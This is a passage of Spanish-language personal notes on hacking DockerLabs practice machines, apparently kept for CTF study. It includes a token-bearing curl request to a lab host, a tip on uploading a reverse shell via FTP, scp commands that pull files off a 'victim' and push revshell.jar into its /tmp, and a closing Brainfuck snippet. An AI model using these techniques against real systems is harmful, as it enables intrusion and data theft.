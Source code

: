 curl -X POST http://172.17.0.2:3000/recurso/ -H "Content-Type: application/json" -d '{"token":"tokentraviesito"}'

referencia máquina consolelog - dockerlabs:

E:\Hacking\APUNTES\Dockerlabs\Fácil\ConsoleLog.txt

-------------------------------------------------------------------------------

## 33.- Hay ocasiones en que el servidor ftp se visualizan archivos de la web, entonces podemos subir una reverseshell por ftp con el comando put.

referencia máquina anonymouspingu - dockerlabs:

https://github.com/dfalla/Hacking---Dockerlabs/blob/anonymouspingu/anonymouspingu.md

-------------------------------------------------------------------------------

## 34.- Descargar un archivo mediante scp:

desde la máquina vícitma al kali, siempre y cuando se tenga acceso mediante ssh.

en kali ejecutamos este comando

scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg ~/Downloads/

puerto diferente al 22, ejemplo el 8899

scp -P 8899 rosa@172.18.0.2:/home/rosa/-/backup_rosa.zip .


referencia máquina amor - dockerlabs:

https://github.com/dfalla/Hacking---Dockerlabs/blob/amor/amor.md

enviar desde kali a la máquina víctima
scp revshell.jar augustus@172.17.0.2:/tmp/revshell.jar

si ssh corre en un puerto diferente al 22, como en el 8899:

scp -P 8899 revshell.jar augustus@172.17.0.2:/tmp/revshell.jar


Si no está ejecutandose el ssh, podemos descargar cualquier archivo, levantando un servidor en el directorio dónde se encuentra el archivo y con un simple wget podemos descargar el archivo en mi kali, para esto debe estar instalado python en la máquina objetivo

referencia máquina file - dockerlabs:

https://github.com/dfalla/Hacking---Dockerlabs/blob/file/file.md

-------------------------------------------------------------------------------

## 35.- Lenguaje Brainfuck:


++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
